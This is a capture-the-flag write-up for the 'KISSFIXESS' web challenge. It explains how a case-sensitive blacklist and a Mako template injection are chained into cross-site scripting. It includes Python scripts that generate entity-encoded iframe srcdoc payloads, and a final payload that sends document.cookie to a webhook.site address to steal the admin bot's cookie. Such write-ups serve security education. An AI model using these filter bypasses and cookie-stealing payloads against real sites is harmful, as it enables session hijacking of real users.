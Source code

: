 # 🏷️ KISSFIXESS

**Category:** Web  
**Description:**  
> Kiss My Fixes.

This is the important things from the app.py
```py
lookup = TemplateLookup(directories=[os.path.dirname(__file__)], module_directory=MODULE_DIR)

banned = ["s", "l", "(", ")", "self", "_", ".", "\"", "\\", "import", "eval", "exec", "os", ";", ",", "|"]


def escape_html(text):
    """Escapes HTML special characters in the given text."""
    return text.replace("&", "&amp;").replace("<", "&lt;").replace(">", "&gt;").replace("(", "&#40;").replace(")", "&#41;")

def render_page(name_to_display=None):
    """Renders the HTML page with the given name."""
    templ = html_template.replace("NAME", escape_html(name_to_display or ""))
    template = Template(templ, lookup=lookup)
    return template.render(name_to_display=name_to_display, banned="&<>()")

class SimpleHTTPRequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):

        # Parse the path and extract query parameters
        parsed_url = urlparse(self.path)
        params = parse_qs(parsed_url.query)
        name = params.get("name_input", [""])[0]
        
        for b in banned:
            if b in name:
                name = "Banned characters detected!"
                print(b)

        # Render and return the page
        self.send_response(200)
        self.send_header("Content-Type", "text/html")
        self.end_headers()
        self.wfile.write(render_page(name_to_display=name).encode("utf-8"))
```

As we can see the banned list check doesn't check for capital case letters.

```py
        for b in banned:
            if b in name:
                name = "Banned characters detected!"
                print(b)
```
<br />
So we can enter "Src" and it will be fine.
<br />
<img/src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/1.png">
<br />
Now we need to think about getting a xss using open and closing tag but it's blocked but we have an ssti here in render_page function 
<br />
```py
    templ = html_template.replace("NAME", escape_html(name_to_display or ""))
    template = Template(templ, lookup=lookup)
    return template.render(name_to_display=name_to_display, banned="&<>()")
```
<br />
So we can access anything from banned list which contain our needed string using the ssti we have the open and closing tag for xss in banned here, so to get `<` for example
we can do `${banned[1]}` this will get us `<`
Let's try get `<` : 
<br />
<img/src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/2.png">
<br />
As we can see it worked now can get a working payload like `<img src=x onerror=alert()>`

I replaced s with S and l with L 
<br />
```${banned[1]}img Src=x onerror=aLert`1`${banned[2]}```
<br />
<img/src="https://github.com/Yazan03/CTF-writeups2025/blob/main/TFCCTF2025/images/3.png">
<br />
But if we want to insert the webhook it will contain a lot of things that blocked but we can use encoding since we have `${banned[0]}` as `&` we can use html encoding for instance `${banned[0]}#x3d` get converted to `=` 

Let's make a script that will help us convert everything 
<br />
```py
st, nd, td = [f"${{banned[{i}]}}" for i in range(3)]

inner_html = (
    '<img SRC=x onerror="alert(1)">'
)

hex_encoded = "".join(f"{st}#x{ord(c):02x}" for c in inner_html)
```

will gave us this 

```
${banned[0]}#x3c${banned[0]}#x69${banned[0]}#x6d${banned[0]}#x67${banned[0]}#x2f${banned[0]}#x73${banned[0]}#x72${banned[0]}#x63${banned[0]}#x3d${banned[0]}#x78${banned[0]}#x20${banned[0]}#x6f${banned[0]}#x6e${banned[0]}#x65${banned[0]}#x72${banned[0]}#x72${banned[0]}#x6f${banned[0]}#x72${banned[0]}#x3d${banned[0]}#x61${banned[0]}#x6c${banned[0]}#x65${banned[0]}#x72${banned[0]}#x74${banned[0]}#x28${banned[0]}#x31${banned[0]}#x29${banned[0]}#x3e
```

But when we try it it's rendered as text we can use iframe to load it as html

```py
st, nd, td = [f"${{banned[{i}]}}" for i in range(3)]

inner_html = (
    '<img SRC=x onerror="alert(1)">'
)

hex_encoded = "".join(f"{st}#x{ord(c):02x}" for c in inner_html)

payload = f"{nd}iframe Srcdoc='{hex_encoded}' {nd}/iframe{td}"


print("\n[+] Final Payload:\n", payload)
```

This is the payload to get alert(1)

```
${banned[1]}iframe Srcdoc='${banned[0]}#x3c${banned[0]}#x69${banned[0]}#x6d${banned[0]}#x67${banned[0]}#x20${banned[0]}#x53${banned[0]}#x52${banned[0]}#x43${banned[0]}#x3d${banned[0]}#x78${banned[0]}#x20${banned[0]}#x6f${banned[0]}#x6e${banned[0]}#x65${banned[0]}#x72${banned[0]}#x72${banned[0]}#x6f${banned[0]}#x72${banned[0]}#x3d${banned[0]}#x22${banned[0]}#x61${banned[0]}#x6c${banned[0]}#x65${banned[0]}#x72${banned[0]}#x74${banned[0]}#x28${banned[0]}#x31${banned[0]}#x29${banned[0]}#x22${banned[0]}#x3e' ${banned[1]}/iframe${banned[2]}
```

<img>

Let's try call our webhook:

```py
st, nd, td = [f"${{banned[{i}]}}" for i in range(3)]

inner_html = (
    '<img SRC=x onerror="fetch(\'https://webhook.site/5e62010d-de88-4bf6-8084-881d88f8e883/?q=\'+document.cookie)"/>'
)

hex_encoded = "".join(f"{st}#x{ord(c):02x}" for c in inner_html)

payload = f"{nd}iframe Srcdoc='{hex_encoded}' {nd}/iframe{td}"


print("\n[+] Final Payload:\n", payload)
```

<img>

Got a callback, Let's report to the bot:

<img>

We didn't get callback, looking at the bot, Found this option that will disable image loading:

```py
chrome_opts.add_argument("--blink-settings=imagesEnabled=false")
```
Let's try another payload that doesn't contain an image

```py
st, nd, td = [f"${{banned[{i}]}}" for i in range(3)]

inner_html = (
    '<audio SRC=x onerror="fetch(\'https://webhook.site/5e62010d-de88-4bf6-8084-881d88f8e883?q=\'+document.cookie)">'
)

hex_encoded = "".join(f"{st}#x{ord(c):02x}" for c in inner_html)

payload = f"{nd}iframe Srcdoc='{hex_encoded}' /{td}{nd}/iframe{td}"


print("\n[+] Final Payload:\n", payload)
```

Got it:

<img>
